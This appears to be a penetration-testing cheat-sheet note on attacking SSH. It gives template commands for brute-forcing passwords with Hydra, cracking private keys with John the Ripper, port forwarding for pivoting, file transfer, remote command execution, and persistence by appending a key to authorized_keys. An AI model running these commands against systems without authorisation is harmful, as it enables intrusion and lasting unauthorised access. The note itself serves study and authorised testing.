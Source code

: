 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SSH/Exploitation
links: "[[SSH]]"
---
```


<!-- Exploitation {{{-->
# Exploitation

<!-- Brute Force {{{-->
## Brute Force

<!-- Passwords {{{-->
### Passwords

Brute force passwords with [[Hydra]]

```sh
hydra -l user -P </path/to/wordlist.txt> ssh://<target>
```

<!-- }}} -->

<!-- SSH Keys {{{-->
### SSH Keys

Brute force SSH keys with [[John The Ripper]]

> [!example]-
>
> 1. Create a `John`-compatible hash
>
> ```sh
> /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
> ```
>
> 2. Run `John` against the hash
>
> ```sh
> john --wordlist=<path/to/wordlist.txt> id_rsa.hash
> ```

<!-- }}} -->

___

<!-- }}} -->

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

<!-- Port Forwarding {{{-->
## Port Forwarding

> [!todo]
>
> [[General#Port Forwarding]]

Forward local ports to the attacker's machine
to access network services on the target's network

Local Port Forwarding

```sh
ssh -L <local_port>:<remote_host>:<remote_port> <user>@<ssh_server>
```

> [!example]-
>
> Forward a local host's port to a remote host's port
>
> ```sh
> ssh -N -L 8080:10.0.0.25:80 alice@198.51.100.5
> ```
>
> - `N`: Don't open a remote shell (*tunnel only*)

Remote Port Forwarding

```sh
ssh -R <remote_port>:<local_host>:<local_port> <user>@<ssh_server>
```

> [!todo]
>
> SSH Tunneling
>
> ```sh
> ssh -D 8080 user@X.X.X.X
> ```

___

<!-- }}} -->

<!-- File Transfer {{{-->
## File Transfer

### SCP

File transfer with SCP
([Secure Copy Protocol](https://en.wikipedia.org/wiki/Secure_copy_protocol))

Download files

```sh
scp <user>@<target>:</path/to/remote/file> </path/to/local/destination>
```

Upload files

```sh
scp </path/to/local/file> <user>@<target>:</path/to/remote/destination>
```

### SFTP

File transfer with SFTP
([SSH File Transfer Protocol](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol))

```sh
sftp <user>@<target>
```

___

<!-- }}} -->

<!-- Command Execution {{{-->
## Command Execution

Run an arbitrary command on the remote host

```sh
ssh <user>@<target> '<command>'
```

___

<!-- }}} -->

<!-- Maintaining Access {{{-->
## Maintaining Access

Add an SSH public key to the authorized keys

```sh
echo <public_key> >> ~/.ssh/authorized_keys
```
___

<!-- }}} -->

<!-- Privilege Escalation {{{-->
## Privilege Escalation

Leverage local vulnerabilities or misconfigurations to elevate privileges

```sh
ssh <user>@<target> 'sudo -l'
```

___

<!-- }}} -->

<!-- }}} -->
